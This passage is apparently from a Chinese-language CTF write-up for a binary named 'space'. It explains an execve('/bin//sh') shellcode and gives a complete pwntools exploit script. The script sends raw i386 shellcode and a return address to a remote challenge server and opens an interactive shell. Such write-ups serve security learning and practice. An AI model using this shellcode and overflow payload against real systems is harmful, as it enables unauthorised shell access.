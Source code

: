 为了看的方便，这里展示出shellcode的汇编意义,我把这段代码分成了0-9的部分和9-32的部分

shellcode的主要目标在于用int 80h命令

执行

execve('/bin//sh',0,0)

详情可以参考以下网址

[网址](https://blog.csdn.net/xiaominthere/article/details/17287965)

### 5.完整exp

    from pwn import *

    #io =process('./space')
    io = remote("167.71.134.138",31572)
    #print(asm("sub esp,22;jmp esp",arch='i386'))
    
    shellcode_one = b'\x31\xc9\x31\xd2\x83\xec\x16\xff\xe4'
    
    shellcode_two = b'\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'
    
    payload = shellcode_two + p32(0x804919F)+shellcode_one
    #payload = b'aaaabaaacaaadaaaeaaafaaagaaahaa'
    #gdb.attach(io)
    
    io.sendline(payload)
    io.interactive()